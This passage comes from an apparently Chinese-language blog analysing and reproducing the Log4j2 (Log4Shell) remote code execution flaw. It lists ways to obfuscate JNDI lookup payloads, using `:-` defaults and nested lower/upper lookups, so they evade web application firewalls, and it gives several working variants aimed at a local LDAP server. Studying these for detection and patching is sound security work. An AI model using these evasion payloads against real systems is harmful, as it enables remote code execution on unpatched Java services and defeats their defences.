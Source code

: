 ![image-20220123210252342](log4j2-RCE分析与复现/image-20220123210252342.png)

## 0x02 payload变形思路

### 增加`:-`干扰

上面说到当字符串种包含`:-`和`:\-`会做一些处理，我们就可以该处理逻辑来变形绕过一些waf，例如`${${p0melo:-j}ndi:ldap://127.0.0.1:1389/kk2err}`

### 嵌套其他协议

上面分析中可以看到`StrLookup`除了支持jndi协议还支持其他协议`{date, ctx, lower, upper, main, env, sys, sd, java, marker, jndi, jvmrunargs, event, bundle, map, log4j}`，所以我们可以通过其他协议变形payload

```java
${${lower:j}ndi:ldap://127.0.0.1:1389/kk2err}
${${lower:j}${upper:n}di:${lower::::l}dap://127.0.0.1:1389/kk2err} // 可以嵌套多个
```

当然我们也可以组合上面两种思路，例如

```java
${${lower:${p0melo:-j}}ndi:ldap://127.0.0.1:1389/kk2err}
${${p0melo:-${lower:J}}ndi:ldap://127.0.0.1:1389/kk2err}
```
